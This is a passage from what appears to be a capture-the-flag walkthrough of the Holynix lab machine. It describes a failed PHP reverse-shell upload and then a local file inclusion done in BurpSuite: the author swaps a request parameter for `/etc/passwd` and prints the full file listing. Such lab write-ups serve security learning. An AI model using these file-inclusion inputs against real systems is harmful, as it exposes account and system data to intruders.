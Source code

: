 We can then head to the uploads section, which allows us to upload files from our computer. Here is where the php reverse shell comes in. We have it located at `/usr/share/webshells/php/php-reverse-shell.php` in our kali machine. We can try to upload this, but however to our surprise, the user `alamo` doesn't have priviliges to upload files to the directory.

# LFI using BurpSuite #
If we browse to the security page, we can see that we can choose files that we want to list. These are all security practices for the company. We can analyse the requests we send by using burpsuite. When we click the `Display File` button on the website, it pulls a file from the target's computer:

![Using Burpsuite for LFI](https://raw.githubusercontent.com/ctrllevi/ctrllevi.github.io/main/_posts/images/holynix/burp.png)

We can change the `text_file_name` paramater to file that we want to display. To prove this is an LFI, I entered `/etc/passwd` which listed all the users on the machine:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
```